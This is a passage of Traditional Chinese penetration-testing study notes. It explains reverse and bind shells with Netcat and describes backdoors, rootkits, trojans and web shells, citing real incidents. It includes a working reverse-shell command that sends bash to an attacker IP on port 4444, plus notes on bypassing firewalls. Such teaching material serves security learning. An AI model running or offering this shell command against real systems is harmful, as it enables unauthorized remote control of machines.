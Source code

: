   2. 在目標機器上執行連接攻擊者的命令： `nc 10.0.0.2 4444 -e /bin/bash`
     - `nc`：呼叫 Netcat 程式
     - `10.0.0.2`：攻擊者的 IP 地址
     - `4444`：連接的端口號（必須與攻擊者監聽的端口相匹配）
     - `-e /bin/bash`：連接成功後目標機器執行 bash 程式（shell），給攻擊者提供目標機器的 shell

## 重要性與應用

- 了解和使用遠端 Shell（如反向 Shell 或綁定 Shell）是滲透測試的基本技能
- 反向 Shell 由被入侵機器發起，用於繞過通常限制較少的出站連接的防火牆規則
- 綁定 Shell 由攻擊者或滲透測試人員向被入侵主機發起連接
- 掌握如何設置和執行這些 Shell，可以維持對入侵系統的控制並有效繞過網路防禦

## 重要工具

- **Netcat**（網路瑞士軍刀）：一個功能強大的網路工具，可用於連接各種服務如 Telnet、RSH、HTTP 等
  - 支援 TCP/UDP 協議
  - 因其強大的功能，常被駭客用來建立後門或設置綁定和反向 Shell
  - 基本用法：
    - 連接到某處：`nc [-options] hostname port[s] [ports] ...`
    - 監聽傳入連接：`nc -l -p port [-options] [hostname] [port]`

# 後門、Rootkit、木馬和網頁 Shell

- **Backdoor（後門）**：通過繞過正常認證機制，讓攻擊者能夠存取系統、網路或應用程式的方法。
  - 允許攻擊者無需再次利用漏洞即可重新進入系統。
  - 類似於擁有祕密鑰匙，即使主入口已受保護，攻擊者仍能通過隱藏後門出入。
  - 可用於執行命令、提取資料或部署進一步惡意活動。

- **Rootkit（隱匿程式）**：被設計用來隱藏特定程序或程式，使其免於常規檢測方法，並為攻擊者提供持續的特權存取。
  - 能夠在作業系統的核心層級運作，可以攔截和修改系統呼叫。
  - 極難檢測和移除。
  - 案例：ZeroAccess rootkit 在 Windows 機器上創建隱藏檔案系統，隱藏活動。
  - 可以禁用安全軟體、隱藏網路連接、阻止系統修補。
  - Stuxnet 蠕蟲使用 rootkit 技術隱藏其存在，在伊朗核計劃中進行破壞活動。

- **Trojan（木馬）**：偽裝成合法軟體的惡意軟體。
  - 與病毒和蠕蟲不同，木馬不會自我複製，而是依賴使用者執行。
  - 安裝後可以為攻擊者開啟後門，讓攻擊者控制受感染系統。
  - 通過釣魚郵件、惡意網站或與合法軟體捆綁傳播。
  - 案例：Zeus 木馬透過記錄鍵盤按鍵和捕獲螢幕截圖來竊取銀行資訊。
  - 特殊木馬可專門用於：
    - 禁用安全措施（如防毒軟體和防火牆）
    - 創建殭屍網路（Botnet）進行協調攻擊（DDoS、發送垃圾郵件、挖掘加密貨幣）
  - Mirai 木馬感染物聯網設備並發動大規模 DDoS 攻擊。

- **Web Shell（網頁 Shell）**：通過網頁介面在伺服器上執行命令。
  - 通常使用 PHP、ASP 或 JSP 等網頁開發語言編寫。
  - 案例：China Chopper 網頁 Shell，一個小型但功能強大的腳本，為攻擊者提供簡單但強大的介面。
  - 常被忽視，可輕易隱藏在合法網頁應用程式檔案中，難以檢測。
  - 提供攻擊者維持長期存取的多用途工具。
  - 2017 年 Equifax 資料外洩案中，攻擊者利用網頁應用程式漏洞上傳網頁 Shell。
  - 可用於執行任意命令、操作檔案，並創建額外後門。
  - 可安裝其他惡意軟體（如鍵盤記錄器、勒索軟體）。
